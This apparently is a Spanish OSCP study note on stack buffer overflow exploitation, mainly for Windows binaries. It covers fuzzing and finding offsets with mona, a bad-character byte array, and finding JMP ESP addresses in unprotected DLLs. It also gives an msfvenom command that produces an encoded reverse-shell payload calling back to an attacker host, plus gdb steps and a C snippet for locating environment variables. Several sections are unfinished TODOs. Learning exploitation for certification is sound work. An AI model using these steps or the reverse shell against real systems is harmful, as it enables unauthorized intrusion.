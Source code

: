# Buffer Overflow

## Windows

### OSCP Metodología Stack Based

#### Fuzzing

En esta sección se realiza la búsqueda del punto de quiebre del binario. Identificando el número de caracteres que causen un fallo de segmentación.

**Generacion de patrón**

`!mona pattern_create <num>`

Después de provocar el fallo con el patrón, la dirección `EIP` se sustituiría con un valor del segmento de nuestro patrón. El valor que contenga `EIP` ahora lo identificaremos para saber el offset específico.

TODO: Agregar imagen de evidencia

**Identificación offset**

`!mona pattern_offset <eip>`

TODO: Agregar imagen

1. Offset.
2. EIP.

*Nota: Siempre corroborar con un payload propio modificando después del offset un valor que se identifique facilmente.*

#### Identificar Bad Chars

**Manual**

TODO: Agregar evidencia de proceso manual

**Semi-automático**

TODO: Buscar comandos automáticos de mona

`!mona bytearray`

**Plano**

`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`

**Arreglo**

```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

#### Búsqueda de dirección

Aquí se realiza la búsqueda de la instrucción `JMP ESP` (valores hexadecimales `\xff\xe4`).

Búsqueda de dlls que contengan el `JMP ESP`, siempre tratando de identificar aquellas que no cuenten con protecciones (todas la banderas dadas por `mona.py` en `False`).

**Comando de mona.py**

`!mona modules`

**Ejemplo**

TODO: Agregar imagen

##### Búsqueda de apuntador en dll

Aquí se realiza una búsqueda de los apuntadores contenidos en la dll identificada con el valor de la instrucción `\xff\xe4`.

**Comando de mona.py**

`!mona find -s "\xff\xe4" -m <nombre de dll>`

Se desplegará una lista de direcciones de memoria que se pudieran utilizar, sin antes considerar 2 cosas. La descripción de la tabla contenerá direcciones con permisos de lectura y ejecución (`PAGE_EXECUTE_READ`); y de escritura solamente (`PAGE_READ_ONLY`), **hay que tomar en cuenta sólo aquellas que cuenten con ejecución** (`PAGE_EXECUTE_READ`). Y también desplegará las protecciones con las que cuenta la dll, tomar de nuevo en cuenta aquellas que tengan todo deshabilitado (`False`).

TODO: Poner imagen mona_find_2.png

1. Comando.
2. Direcciones útiles para usar en EIP.
3. Permisos.
4. Protecciones.

#### Generación de shellcode

Aquí se generará el shellcode a utilizar después de la sustitución del valor que se asigne a la `EIP`.

**Comando de ejemplo**

`msfvenom -a x86 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=<puerto> -b '\x00' EXITFUNC=THREAD -i 3 -f python > scode.txt`

Tener en consideración:
- Sistema operativo.
- Arquitectura.
- Payload.
- Formato (python, c, exe, etc).
- Variables de escucha o comando a ejecutar.
- Encoding (extra: `-i 3` para número de iteraciones para encodear).
- BadChars.
- Función de salida (para evitar que el proceso termine `SEH` `THREAD`).


## Linux

Usualmente el llamar directamente a la pila no retorna una shell, por lo que hay que buscar instrucciones de tipo `jmp` y `call`, pudiendo hacer un filtrado de estas instrucciones con `grep`. Ejemplo: `objdump -d [binario] | grep jmp`. Teniendo en cuenta que deberían apuntar a los ROP Gadgets ya sea de 32 o 64 bits respectivamente.

Sacar offset en gdb

Setear breakpoint antes de que termine el programa

info frame

x/24wx $rsp

p/d rip - rsp


## Script de exploit base

## Tips n' tricks


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
   char *ptr;

   if(argc < 3) {
      printf("Usage: %s <environment var> <target program name>\n", argv[0]);
      exit(0);
   }
   ptr = getenv(argv[1]); /* Get env var location. */
   ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
   printf("%s will be at %p\n", argv[1], ptr);
}
```